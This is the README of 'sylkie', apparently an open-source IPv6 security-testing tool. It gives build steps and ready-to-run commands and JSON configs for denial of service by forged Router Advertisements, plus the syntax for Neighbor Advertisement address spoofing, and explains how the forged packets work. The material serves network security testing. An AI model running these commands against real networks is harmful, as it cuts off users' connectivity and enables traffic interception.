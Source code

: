 # `sylkie` 

[![Travis Build Status](https://img.shields.io/travis/dlrobertson/sylkie/master.svg?label=master%20build)](https://travis-ci.org/dlrobertson/sylkie)

A command line tool and library for testing networks for common address
spoofing security vulnerabilities in IPv6 networks using the Neighbor
Discovery Protocol.

## Getting Started

**Note:** This project is still in the early phases of development. If you run into any problems,
please consider submitting an [issue](https://github.com/dlrobertson/sylkie/issues). It currently
only runs on Linux.

### Dependencies

 - [libseccomp](https://github.com/seccomp/libseccomp) (Optional, but highly recommended)
 - [json-c](https://github.com/json-c/json-c) (Optional, but recommended)

See [The Wiki](https://github.com/dlrobertson/sylkie/wiki#building) for more details.

### Build

Get the code and compile it!

```
# Get the code
git clone https://github.com/dlrobertson/sylkie
cd ./sylkie

# Compile the code
mkdir -p ./build
cd ./build
cmake -DCMAKE_BUILD_TYPE=Release ..
make
make install
```

## Basic usage

The following describes the basic usage of `sylkie`. Run `sylkie -h` or
`sylkie <subcommand> -h` for more details.

### DoS (Router Advert)

The basic usage of the `sylkie` router advert command is listed below.
This command will send a Router Advertisement message to the given ip
or the all nodes multicast addres causing the targeted nodes to remove
`<router-ip>/<prefix>` from their list of default routes.

```
sylkie ra -interface <interface> \
    --target-mac <mac of router> \
    --router-ip <ip of router> \
    --prefix <router prefix> \
    --timeout <time between adverts> \
    --repeat <number of times to send the request>
```

#### Router Advert Examples

A basic example.

```
sylkie ra -i ens3 \
    --target-mac 52:54:00:e3:f4:06 \
    --router-ip fe80::b95b:ee1:cafe:9720 \
    --prefix 64 \
    --repeat -1 \
    --timeout 10
```

This would send a "forged" Router Advertisement to the link local scope
all-nodes address `ff02::1` causing all of the nodes to remove
`fe80::b95b:ee1:cafe:9720/64` (link-layer address `52:54:00:e3:f4:06`)
from their list of default routes.

That is quite a bit of info. To make life easier `sylkie` also accepts
json, where the subcommand (`ra`, `na`) is a key whos value is an array
of objects with the keys and values being the corresponding option
and value. To run the command, pass the path to the json file as the
argument to the `-j` option.

To run the above command from json, first create a file with the following.

```
{
    "ra": [
        {
            "interface": "ens3",
            "target-mac": "52:54:00:e3:f4:06",
            "router-ip": "fe80::b95b:ee1:cafe:9720",
            "prefix": 64,
            "repeat": -1,
            "timeout": 10
        }
    ]
}
```

After creating the file, start sending adverts with the following.

```
sylkie -j /path/to/json
```

This becomes especially useful if there is a set of advertisements
that need to be configured and sent. For example, the following json
config would send two router advertisements on the configured
intervals.

```
{
    "ra": [
        {
            "interface": "ens3",
            "target-mac": "52:54:00:e3:f4:06",
            "router-ip": "fe80::b95b:ee1:cafe:9720",
            "prefix": 64,
            "repeat": -1,
            "timeout": 10
        },
        {
            "interface": "ens3",
            "target-mac": "52:54:00:c2:a7:7c",
            "router-ip": "fe80::cbed:6822:cd23:bbdb",
            "prefix": 64,
            "repeat": -1,
            "timeout": 10
        }
    ]
}
```

#### How it works

The router advert (`ra`) command attempts to DoS a network by sending
"forged" Router Advertisement messages to either a targeted address
(if one is provided) or the link local scope all-nodes address `ff02::1`.
The "forged" Router Advertisement contains [Prefix Information](https://tools.ietf.org/html/rfc4861#section-4.6.2)
with the lifetimes set to 0. The message also contains the
[Source Link-Layer Address](https://tools.ietf.org/html/rfc4861#section-4.6.1).
This should cause the targeted address or all link local nodes to
remove the targetted router from the list of default routes.

### Address spoofing (Neighbor Advert)

```
sylkie na -i <interface> \
    --dst-mac <dest hw addr> \
    --src-ip <source ip> \
    --dst-ip <dest ip address> \
    --target-ip <target ip address> \
    --target-mac <target mac address> \
    --timeout <time betweeen adverts> \
    --repeat <number of times to send the request>
```
